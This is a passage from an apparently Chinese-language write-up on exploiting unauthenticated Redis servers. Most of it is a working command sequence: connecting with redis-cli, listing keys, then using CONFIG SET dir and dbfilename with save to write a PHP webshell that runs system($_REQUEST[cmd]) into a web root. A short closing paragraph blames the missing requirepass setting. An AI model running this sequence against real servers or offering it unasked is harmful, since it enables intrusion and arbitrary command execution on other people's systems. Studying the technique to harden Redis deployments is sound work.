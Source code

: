 可以看到能直接操作数据库。

下面我用另外一台服务器做安全测试

```txt
[root@localhost 桌面]# redis-cli -h 10.10.3.215
redis 10.10.3.215:6379> keys *
1) "about"
2) "user:id1"
3) "user:id2"
4) "admin"
5) "str"
redis 10.10.3.215:6379> 
```

发现也是可以直接操作数据库

根据redis语句我们写webshell….

前提是知道绝对路径，当然也可以用语句判断。

```txt
redis 10.10.3.215:6379> CONFIG SET dir /var/wwwroot/
(error) ERR Changing directory: No such file or directory
```

可以发现不存在，那么就可以猜解目录了。

下面我演示写webshell

```txt
redis 10.10.3.215:6379> CONFIG SET dir /usr/share/apache/htdocs/ #这里是站点绝对路径
OK
redis 10.10.3.215:6379> set shell "<?php echo system($_REQUEST[cmd])?>"
OK
redis 10.10.3.215:6379> CONFIG SET dbfilename shell.php
OK
redis 10.10.3.215:6379> save  #将内存中的数据保存到dbfilename中
OK
redis 10.10.3.215:6379> 
```

这样就getshell了

![3150364-78f6ce3f2a7e5357.png](https://whitecell.io/upload/attach/201810/151_WHAZNQAHHSGAS6J.png "3150364-78f6ce3f2a7e5357.png")


> 下面看看这个未授权原因 

> 在刚才的配置文件中，有一个选项 设置客户端连接后进行任何其他指定前需要使用的密码。 警告：因为redis速度相当快，所以在一台比较好的服务器下，一个外部的用户可以在一秒钟进行150K次的密码尝试，这意味着你需要指定非常非常强大的密码来防止暴力破解 requirepass [密码] 所以必须设置密码。 出现这类漏洞就是 配置不得当导致控制系统 执行任意代码 再深入还可以威胁主从服务器 及其他的数据库服务器。

------

## Redis 未授权访问漏洞利用总结

---


[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2018-03-16/4
[3]: http://www.alloyteam.com/2017/07/12910/